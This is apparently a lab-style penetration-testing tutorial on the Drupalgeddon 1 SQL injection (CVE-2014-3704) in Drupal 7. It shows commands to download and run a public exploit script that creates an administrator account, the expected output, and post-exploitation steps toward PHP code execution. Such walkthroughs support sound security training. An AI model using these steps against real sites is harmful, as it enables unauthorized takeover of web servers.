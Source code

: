 
## Drupalgeddon Vulnerability Series

### CVE-2014-3704: Drupalgeddon 1 (SQL Injection)

#### Vulnerability Details
```bash
# CVE-2014-3704 Overview:
Affected Versions: Drupal 7.0 - 7.31
Fixed Version: Drupal 7.32
CVSS Score: 7.5 (High)
Attack Vector: Pre-authenticated SQL injection
Impact: Remote code execution, admin user creation
```

#### Manual Exploitation Process

**Vulnerability Mechanism:**
```bash
# SQL injection in user registration form
# Malicious arrays bypass input sanitization
# Allows arbitrary SQL execution
# Can create admin users or upload files
```

**Exploit Script Usage:**
```bash
# Download Drupalgeddon exploit
wget https://raw.githubusercontent.com/dreadlocked/Drupalgeddon/master/drupalgeddon.py

# Basic admin user creation
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd

# Expected output:
[!] VULNERABLE!
[!] Administrator user created!
[*] Login: hacker
[*] Pass: pwnd
[*] Url: http://drupal-qa.inlanefreight.local/?q=node&destination=node
```

**Post-Exploitation Steps:**
```bash
# 1. Login with created admin account
curl -c cookies.txt -d "name=hacker&pass=pwnd&form_id=user_login" \
  "http://drupal-qa.inlanefreight.local/user/login"

# 2. Enable PHP Filter module (if needed)
# Navigate to /admin/modules and enable PHP filter

# 3. Create malicious content with PHP execution
# Use techniques from PHP Filter section above
```
